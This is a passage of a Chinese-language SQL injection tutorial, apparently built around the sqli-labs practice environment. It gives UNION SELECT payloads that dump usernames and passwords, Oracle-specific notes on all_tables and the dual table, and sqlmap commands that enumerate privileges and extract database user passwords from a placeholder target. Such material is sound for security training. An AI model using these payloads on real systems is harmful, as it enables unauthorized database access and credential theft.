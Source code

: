 7.爆出字段内容

```
id=1' and 1=2 union select 1,username,password from users where id=1 --+

id=1' and 1=2 union select 1,group_concat(username),group_concat(password) from security.users --+
```

### 注意：关于Oracle的特殊性

大多数数据库类型（Oracle 除外）都有一组称为信息模式的视图，它提供有关数据库的信息。

可以查询`information_schema.tables`以列出数据库中的表：

```sql
SELECT * FROM information_schema.tables
```

在 Oracle 上，可以通过稍微不同的查询获得相同的信息。

可以通过查询列出表`all_tables`：

```sql
SELECT * FROM all_tables
```

可以通过查询列出列`all_tab_columns`：

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

在 Oracle 数据库上，每条`SELECT`语句都必须指定一个表来选择`FROM`。如果您的`UNION SELECT`攻击不从表中查询，您仍然需要包含关键字，`FROM`后跟有效的表名。

Oracle 上有一个名为的内置表`dual`，您可以将其用于此目的。例如：

```sql
UNION SELECT 'abc' FROM dual
```



# 使用sqlmap进行自动化攻击

扫描URL目标

```
sqlmap -u "xxx.com/Less-1/?id=1"
```

判断当前数据库用户权限 

```
sqlmap -u "xxx.com/Less-1/?id=1" --privileges -U 用户名 -v 1 
```

读取所有数据库用户或指定数据库用户的密码 

```
sqlmap -u "xxx.com/Less-1/?id=1" --users --passwords -v 2 

sqlmap -u "xxx.com/Less-1/?id=1" --passwords -U root -v 2 
```
